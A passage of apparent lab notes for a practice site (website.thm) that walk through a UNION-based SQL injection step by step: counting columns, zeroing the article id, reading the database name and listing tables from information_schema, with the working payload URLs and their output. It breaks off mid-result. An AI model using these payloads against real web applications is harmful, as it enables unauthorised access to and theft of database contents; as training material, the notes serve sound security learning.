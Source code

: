 * Try again, adding another column:

https://website.thm/article?id=1 UNION SELECT 1,2

* Same error.
* Repeat by adding another column:

https://website.thm/article?id=1 UNION SELECT 1,2,3

* Success, the error message has gone, and the article is being displayed:

My First Article

Article ID: 1

Hi and welcome to my very first article for my new website......

* Now the goal is to display data instead of the article.
* The article is being displayed because it takes the first returned result somewhere in the web site's code and shows that.
* To get around this, the first query must produce no results.
* This can be done by changing the article id from 1 to 0.

https://website.thm/article?id=0 UNION SELECT 1,2,3

* The article is just made up of the result from the UNION select returning the column values 1, 2, and 3:

2

Article ID: 1

3

* Use the returned values to retrieve more useful information.
* Get the database name:

https://website.thm/article?id=0 UNION SELECT 1,2,database()

* Where the number 3 was previously displayed; it now shows the name of the database, which is sqli\_one:

2

Article ID: 1

sqli\_one

* Now gather a list of tables that are in this database.

https://website.thm/article?id=0 UNION SELECT 1,2,group\_concat(table\_name) FROM information\_schema.tables WHERE table\_schema = 'sqli\_one'

* The method group\_concat() gets the specified column (in this case, table\_name) from multiple returned rows and puts it into one string separated by commas.
* Every user of the database has access to the information\_schema database and it contains information about all the databases and tables the user has access to.
* In this particular query, the goal is to list all the tables in the sqli\_one database, which are article and staff\_users:

2
